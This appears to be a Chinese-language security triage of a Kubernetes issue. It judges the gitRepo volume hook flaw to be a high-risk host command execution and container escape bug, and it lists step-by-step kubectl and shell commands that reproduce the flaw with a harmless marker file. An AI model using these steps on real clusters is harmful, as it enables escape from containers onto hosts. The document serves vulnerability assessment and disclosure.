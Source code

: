 **判断依据：**  
该Issue报告了Kubernetes中gitRepo卷可能导致的任意命令执行漏洞。攻击者可以利用具有创建Pod并关联gitRepo卷的权限，通过目标仓库中的hooks文件夹运行容器边界之外的任意命令。这意味着攻击者能够在宿主机上执行任意命令，可能导致容器逃逸、提权等高风险问题。

根据风险判断标准：

1. **该风险能被攻击者利用**，攻击者需要具备创建Pod并使用gitRepo卷的权限。

2. **该风险可能成为一个漏洞，并被分配CVE编号，且CVSS评分在8.1（高危）**。

8. **即使攻击者需要一定权限，该漏洞导致的任意命令执行、容器逃逸等高安全风险问题，应判断为高风险**。

因此，该Issue存在高风险的安全问题。

**复现过程：**

```json
[
  {
    "cmd": "mkdir -p /tmp/hook-test/.git/hooks",
    "explain": "在宿主机上创建一个模拟的Git仓库目录，包括.git/hooks目录。"
  },
  {
    "cmd": "echo -e '#!/bin/sh\\nmkdir /tmp/poc_executed' > /tmp/hook-test/.git/hooks/post-update",
    "explain": "创建一个Git钩子脚本，在仓库更新后执行，在宿主机的/tmp目录下创建一个标识目录。"
  },
  {
    "cmd": "chmod +x /tmp/hook-test/.git/hooks/post-update",
    "explain": "赋予钩子脚本执行权限。"
  },
  {
    "cmd": "kubectl run poc-pod --image=alpine --restart=Never --overrides='{\"spec\": {\"containers\": [{\"name\": \"poc-container\", \"image\": \"alpine\", \"volumeMounts\": [{\"mountPath\": \"/repo\", \"name\": \"gitrepo\"}], \"command\": [\"sleep\", \"3600\"]}], \"volumes\": [{\"name\": \"gitrepo\", \"gitRepo\": {\"repository\": \"file:///tmp/hook-test\", \"directory\": \".git\"}}]}}'",
    "explain": "创建一个Pod，使用gitRepo卷，指定repository为本地的/tmp/hook-test目录，directory设置为.git，挂载到容器的/repo路径。"
  },
  {
    "cmd": "kubectl delete pod poc-pod",
    "explain": "删除测试Pod，触发Git钩子执行。"
  },
  {
    "cmd": "ls /tmp/poc_executed",
    "explain": "在宿主机上检查/tmp/poc_executed目录是否存在，以验证任意命令是否在宿主机上执行。"
  }
]
```

---

## Issue #128609 K8S <= 1.27.x apt gpg key expired

- Issue 链接：[#128609](https://github.com/kubernetes/kubernetes/issues/128609)

